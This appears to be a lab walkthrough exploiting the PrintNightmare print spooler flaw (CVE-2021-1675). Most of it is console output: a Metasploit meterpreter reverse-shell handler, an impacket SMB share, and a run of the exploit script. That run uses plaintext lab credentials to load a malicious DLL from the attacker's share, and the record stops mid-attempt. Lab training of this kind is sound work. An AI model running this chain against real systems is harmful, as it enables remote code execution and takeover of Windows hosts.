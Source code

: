 We need to prepare some things before launching the exploit.

When proper impacket and pysian1 dowloaded, i did in 3 terminals :

Terminal 1 : open metasploit

```console
[...]
Metasploit tip: To save all commands executed since start up to a file, use the makerc command

msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.240.75
lhost => 10.10.240.75
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.240.75:4444 
msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://10.10.240.75:4444

msf5 exploit(multi/handler) >
```
{: .nolineno }

Terminal 2 : open a share on attacker machine :

```console
root@ip-10-10-240-75:~/Desktop/pn# smbserver.py share /root/Deskto/share -smb2support
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno }

Terminal 3 : check if target fits criteria for the exploit :

```console
root@ip-10-10-240-75:~/Desktop/pn# rpcdump.py @10.10.87.98 |egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 

root@ip-10-10-27-152:~/Desktop/pn/CVE-2021-1675# python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.254.219 '\\10.10.27.152\share\malicious.dll'
[*] Connecting to ncacn_np:10.10.254.219[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.27.152\share\malicious.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```